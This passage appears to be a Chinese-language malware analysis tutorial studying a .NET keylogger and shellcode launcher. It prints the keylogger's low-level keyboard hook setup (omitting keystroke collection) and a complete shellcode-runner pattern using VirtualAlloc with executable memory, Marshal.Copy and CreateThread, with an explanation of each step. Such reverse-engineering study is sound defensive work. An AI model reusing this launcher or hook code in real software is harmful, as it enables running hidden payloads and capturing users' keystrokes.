 ![在这里插入图片描述](https://img-blog.csdnimg.cn/338a8f1cc5ce4f909b7ac831f910e53f.png)

为了保持本案例研究的道德完整性，我们将不介绍示例如何收集每个击键。我们将分析示例如何在当前进程上设置钩子。下面是恶意软件示例源代码的挂钩部分的片段。

```csharp
public static void Main() {
	_hookID = SetHook(_proc);
	Application.Run();
	UnhookWindowsHookEx(_hookID);
	Application.Exit();
}
private static IntPtr SetHook(LowLevelKeyboardProc proc) {
	using (Process curProcess = Process.GetCurrentProcess()) {
		return SetWindowsHookEx(WHKEYBOARDLL, proc, GetModuleHandle(curProcess.ProcessName), 0);
	}
}
```

### ShellCode启动器

要开始分析 shellcode 启动器，我们需要再次收集它正在实现哪些 API 调用。此过程应与前面的案例研究相同。下面是恶意软件示例源代码的 p/invoke 定义的片段。

```csharp
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/fac47fa61742447da5ac6458a0c1fc01.png)

```csharp
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```

这里首先使用VirtualAlloc为shellcode分配一块虚拟内存空间，然后通过Marshal.Copy函数将shellcode写入该内存，然后使用CreateThread创建线程并执行，WaitForSingleObject等待线程完成